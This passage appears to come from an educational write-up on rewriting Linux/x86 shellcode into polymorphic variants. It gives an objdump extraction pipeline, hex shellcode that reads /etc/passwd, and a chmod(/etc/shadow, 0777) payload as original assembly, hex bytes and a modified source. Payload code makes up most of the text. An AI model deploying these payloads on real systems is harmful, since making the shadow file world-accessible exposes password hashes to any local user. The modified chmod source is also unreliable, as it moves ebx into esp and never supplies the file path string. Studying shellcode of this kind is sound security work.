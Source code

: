 ```
```

Modified shellcode:
-
	objdump -d ./shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
	\x31\xdb\xf7\xe3\x99\x53\x59\xeb\x3d\x5b\x90\xb0\x05\x31\xc9\xcd\x80\x89\xc7\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xfb\xb0\x03\x83\xec\x01\x8d\x0c\x24\x90\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe5\x6a\x04\x58\x6a\x01\x5b\x6a\x01\x5a\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xd5\xe8\xbe\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64

That is approximately **128%** the size of the original version.

# Shellcode 3: Linux/x86 - chmod(/etc/shadow, 0777) - 33 bytes
[This](http://shell-storm.org/shellcode/files/shellcode-590.php) one is interesting exactly because it does not use good and old JMP/CALL/POP technique. Well, not for a long time, huhu.

Original version:

```
xor %eax,%eax
push %eax
mov $0xf,%al
push $0x776f6461
push $0x68732f63
push $0x74652f2f
mov %esp,%ebx
xor %ecx,%ecx
mov $0x1ff,%cx
int $0x80
inc %eax
int $0x80
```

Original shellcode:

	\x31\xc0\x50\xb0\x0f\x68\x61\x64\x6f\x77\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\x89\xe3\x31\xc9\x66\xb9\xff\x01\xcd\x80\x40\xcd\x80
	
Modified source code (Intel ftw):

```
section .text
	global _start

_start:

	jmp short two
	nop	;useless instruction
	nop	;useless instruction

one:
	pop ebx
	xor ecx,ecx
	mul eax
	push ecx
	mov al, 0xf
	mov esp,ebx
	mov cx, 0x1ff
	int 0x80

	inc eax
	int 0x80
two:
	call one
```
